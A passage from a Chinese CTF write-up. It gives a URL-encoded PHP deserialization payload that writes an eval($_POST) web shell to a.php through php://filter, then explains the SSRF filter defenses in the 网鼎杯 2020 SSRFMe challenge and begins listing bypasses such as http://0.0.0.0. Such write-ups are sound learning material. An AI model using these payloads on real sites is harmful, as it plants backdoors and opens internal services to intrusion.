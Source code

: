 看别人的`wp`说是用`arjun`扫描出参数，但我没扫出来

```
/star1.php?path=http://127.0.0.1/ser.php&c=O%3A4%3A%22GWHT%22%3A1%3A%7Bs%3A4%3A%22hero%22%3BO%3A6%3A%22Yongen%22%3A2%3A%7Bs%3A4%3A%22file%22%3Bs%3A55%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3Da.php%22%3Bs%3A4%3A%22text%22%3Bs%3A39%3A%22111PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA%2FPg%3D%3D%22%3B%7D%7D
```

然后在`a.php`中执行命令即可

## [网鼎杯 2020 玄武组]SSRFMe

### `SSRF防御机制` `SSRF一些绕过方法` `redis主从复制RCE`

[参考liotree的文章](https://liotree.github.io/2020/07/10/%E7%BD%91%E9%BC%8E%E6%9D%AF-2020-%E7%8E%84%E6%AD%A6%E7%BB%84-SSRFMe/#redis%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6rce)

`check_inner_ip`做了几件事：

- 限制协议只能为`http` `https` `gopher` `dict`

- 使用`parse_url`获取`host`

- 使用

  ```
  gethostbyname
  ```

  获取`ip`地址

  - 防御了`xip.io`这类利用`dns`解析的绕过方法

- 使用

  ```
  ip2long
  ```

  将ip地址转为整数，判断是否为内网网段

  - 防御了`127.0.0.1/8`

另外在发送请求后还对重定向的情况做了处理

```php
if ($result_info['redirect_url'])
{
    safe_request_url($result_info['redirect_url']);
}
```

这样基于跳转的方法也无法使用了

## 一些绕过的方法

虽然dns解析和重定向都无法使用了，但是ssrf的绕过方法依然有很多，逐一尝试下其他方法

- `http://0.0.0.0/hint.php`
